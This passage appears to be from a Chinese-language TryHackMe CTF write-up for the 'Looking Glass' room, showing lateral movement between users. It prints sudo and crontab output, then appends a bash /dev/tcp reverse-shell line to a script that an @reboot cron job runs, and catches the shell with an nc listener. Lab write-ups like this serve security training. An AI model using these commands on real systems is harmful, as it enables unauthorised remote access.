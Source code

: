 Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot

```

查看定时任务，tweedledum这个用户，每次reboot的时候都会执行``` /home/jabberwock/twasBrillig.sh```

```
jabberwock@looking-glass:~$ cat /etc/crontab 
#  /etc/crontab: system-wide crontab
#  Unlike any other crontab you don't have to run the `crontab'
#  command to install the new version when you edit this file
#  and files in /etc/cron.d. These files also have username fields,
#  that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

#  m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# 
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

我们把下面的payload写进``` /home/jabberwock/twasBrillig.sh```
```
jabberwock@looking-glass:~$ echo "bash -i >& /dev/tcp/10.13.21.169/4242 0>&1">>/home/jabberwock/twasBrillig.sh
jabberwock@looking-glass:~$ cat /home/jabberwock/twasBrillig.sh
wall $(cat /home/jabberwock/poem.txt)
bash -i >& /dev/tcp/10.13.21.169/4242 0>&1
```

另外开启一个监听窗口，reboot这个机器....

拿到另一个用户```tweedledum```的shell
# user 2 tweedledum
```
┌──(root💀kali)-[~/tryhackme/lookingglass]
└─#  nc -lnvp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.189.27] 52236
bash: cannot set terminal process group (881): Inappropriate ioctl for device